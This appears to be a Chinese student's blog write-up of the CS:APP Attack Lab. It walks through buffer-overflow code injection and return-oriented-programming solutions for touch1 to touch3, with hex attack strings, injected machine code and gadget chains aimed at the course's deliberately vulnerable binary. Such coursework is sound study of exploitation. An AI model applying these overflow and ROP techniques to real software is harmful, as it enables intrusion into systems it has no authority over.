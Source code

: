 # Attack Lab

之前拖了一会儿作业，要去世了，现在补上吧

## touch1

这里是先执行test函数，然后退出。

但是要不执行完test，而去执行touch1

![image-20210504003846993](https://i.loli.net/2021/05/16/8sHPYmoVcapCBGu.png)

```c
unsigned int __cdecl getbuf()
{
  char buf[40]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

显然这里buf只开了40的内存，所以直接使用字符串攻击

```
.text:00000000004017C0 ; void __cdecl touch1()
```

所以使溢出的地址为touch1的地址即可（这里需要注意这个程序是小端的地址要倒写

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

## touch2

这道题我一开始没看懂，一开始一直以为是参数压栈的方式来攻击，发现我多少有点大病，然后去看了一眼blog.，大致上的画了一张图。

![image-20210507154651560](https://i.loli.net/2021/05/16/ROENfpWoJuQM6Td.png)

大致上是这么一个意思

将

```
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret
//转变为机械码
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
9:	68 ec 17 40 00       	pushq  $0x4017ec
e:	c3                   	retq  
```

所以攻击序列为

```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

# touch3

![image-20210507154847522](https://i.loli.net/2021/05/16/IFfTnwOvuhA4XY2.png)

不难发现传入了一个参数这个参数与cookie进行了比较

![image-20210507155718748](https://i.loli.net/2021/05/16/Wq5MHs2z9YSubPK.png)

从汇编里可以发现了在touch3的开始将sval值设置成rdi，说明rdi是存放参数地址的那个寄存器。（PS：这里要求cookie是个字符串的所以要存在栈里）

所以有了以下攻击序列：

![image-20210507162145452](https://i.loli.net/2021/05/16/qy6FemW9Jzrhguf.png)

然后就mad显而易见的错误了，这里看到

![image-20210507162217555](https://i.loli.net/2021/05/16/kXhK5dj9LSGms3v.png)

在touch3里面有一个函数申请了110的空间，我直接az了，然后就有了下面这张

![image-20210507162313534](https://i.loli.net/2021/05/16/V4NvTFGZA7Pzc5K.png)

攻击序列：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00
```

ROP:

问了一些别的师傅，我一开始是不了解ROP的；

ROP简单来说有两个特性：

1.栈随机

2.栈只可读

 ## touch2:



![image-20210507162618951](https://i.loli.net/2021/05/16/UgaJkWCj8xqOQtS.png)

这里说明需要从Gadget中找到对应的片段来进行攻击就行了：

（然后悄悄地看了眼达不溜屁，

可以找到两个满足条件的gadget

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

这里将rax出栈赋值成cookie，然后复制给rdi

于是攻击字符串为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
2d 1a 40 00 00 00 00 00 	//gadget1的起始地址
00 16 fb 73 00 00 00 00     //cookie
41 1a 40 00 00 00 00 00     //gadget2的起始地址
67 18 40 00 00 00 00 00     //touch2 的起始地址
```

## ROP touch3

这个我是真的没找到我直接看blog的，下面贴出所找到的指令：

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

先把`%rsp`存储的栈顶指针值复制给`%rdi`， 再将`%eax`的值设置为`cookie`字符串地址在栈中的偏移量并复制给`%esi`，最后将二者相加即为`cookie`字符串的存储地址。当指令指到ret指令行时，说明一个函数已经结束了，这时候%rsp已经从被调用函数的栈指到了调用函数构建的返回地址位置。
所以当执行第一条指令时，%rsp指向当前栈顶即存储下一条指令的地址，而后面的指令执行完后最终不会使该%rsp值改变。
在第一条指令之后即从第二条指令开始，cookie字符串之前还有有9条指令，共占有72个字节即0x48字节，此即cookie字符串的地址在栈中的偏移量。

攻击字符串：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
//以上（任意字节除0x0a）填充满整个缓冲区（56字节）以致溢出。
b7 1a 40 00 00 00 00 00 
//用gadget1的起始地址覆盖掉原先的返回地址。
41 1a 40 00 00 00 00 00  //gadget2的起始地址。
2d 1a 40 00 00 00 00 00  //gadget3的起始地址。
48 00 00 00 00 00 00 00  //cookie字符串地址在栈中的偏移量。
53 1a 40 00 00 00 00 00  //gadget4的起始地址。
a9 1a 40 00 00 00 00 00  //gadget5的起始地址。
ca 1a 40 00 00 00 00 00  //gadget6的起始地址。
4c 1a 40 00 00 00 00 00  //gadget7的起始地址。
41 1a 40 00 00 00 00 00  //gadget8的起始地址。
75 19 40 00 00 00 00 00  //touch3 的起始地址。
37 33 66 62 31 36 30 30  //cookie字符串的字节表示。
```

完结撒花

PS：最近在写BUU的WP，所以有点拖拉，尽量在近期将BUU的WP发出来，博客搞搞完。

